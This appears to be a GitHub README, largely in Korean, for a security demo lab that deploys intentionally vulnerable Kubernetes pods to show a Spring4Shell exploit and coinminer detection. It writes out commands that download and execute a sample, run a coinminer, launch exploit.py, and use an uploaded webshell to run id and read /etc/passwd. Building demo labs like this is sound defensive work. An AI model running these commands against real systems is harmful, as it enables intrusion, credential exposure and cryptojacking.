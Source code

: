 # Spring4Shell and Coinminer PoC
## This is for testing and demo purposes

#### STEP 0. EKS와 같은 K8S 클러스터, 클러스터에 접속가능한 VM 준비
#### STEP 1. Git 설치후 본 Repo 를 clone 혹은 .zip으로 다운로드 
#### STEP 2. Dockerfile을 docker build . -t spring4shell 로 빌드하여 Registry에 올리거나, 로컬 경로 메모

![WebPage](screenshots/dockerfilebuild.png?raw=true)

#### STEP 3. kubectl apply -f xdr_for_cloud_demo.yaml 의 이미지 경로 확인 및 수정(주석 참조)
#### STEP 4. kubectl get all 로 pod 및 service 확인

아래 YAML file에 kubectl apply:
```sh
$ kubectl apply -f xdr_for_cloud_demo.yaml
pod/jie-spring4shell-pod created
pod/vulmachine-pod created
service/jie-sprig4shell created
```

2개의 pod와 1개의 서비스가 성공적으로 생성되었다면 아래 커맨드를 통해 STATUS를 점검합니다.
```sh
$ kubectl get all
```
![WebPage](screenshots/getAll.png?raw=true)

Coinminer pod 및 Spring4Shell pod - 취약한 pod 가 2개 생성됩니다.

## STEP 5. Use cases

### Coinminer 공격
#### Get the malware sample from Wildfire and execute it
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/sample
--2023-04-24 03:19:40--  http://wildfire.paloaltonetworks.com/publicapi/test/elf
Resolving wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)... 35.247.145.234
Connecting to wildfire.paloaltonetworks.com (wildfire.paloaltonetworks.com)|35.247.145.234|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8608 (8.4K) [application/octet-stream]
Saving to: '/tmp/sample'

/tmp/sample                                100%[======================================================================================>]   8.41K  --.-KB/s    in 0s      

2023-04-24 03:19:40 (56.4 MB/s) - '/tmp/sample' saved [8608/8608]

root@vulmachine-pod:/# chmod +x /tmp/sample 
root@vulmachine-pod:/# ./tmp/sample
```

#### Execute the coinminer
```sh
$ kubectl exec -it vulmachine-pod  -- /bin/bash
root@vulmachine-pod:/# ./tmp/coinminer
```

![WebPage](screenshots/Coinminer.png?raw=true)


### Exploit the Spring4Shell service
`kubectl get all` 명령의 출력을 확인하여 배포된 서비스의 EXTERNAL-IP를 찾고, 해당 IP 주소를 웹 브라우저에 입력하여 접속합니다.

![WebPage](screenshots/checkService.png?raw=true)

위 화면을 확인하였으면 exploit.py 로 공격을 실행합니다.
```sh
$ python3 exploit.py --url "http://"your service external ip":8080/helloworld/greeting"
```
![WebPage](screenshots/exploitpy.png?raw=true)

위 과정이 완료되면 webshell이 서버에 업로드되며, 아래 명령어를 사용하여 id 또는 /etc/password 파일을 확인할 수 있습니다.
```sh
$ http://"your service external ip":8080/webshell.jsp?cmd=id
$ http://"your service external ip":8080/webshell.jsp?cmd=cat%20/etc/passwd
$ http://"your service external ip":8080/webshell.jsp?cmd=whoami
```

## Credit
[@reznok](https://github.com/reznok/Spring4Shell-POC) for helping on building a spring4shell container image.
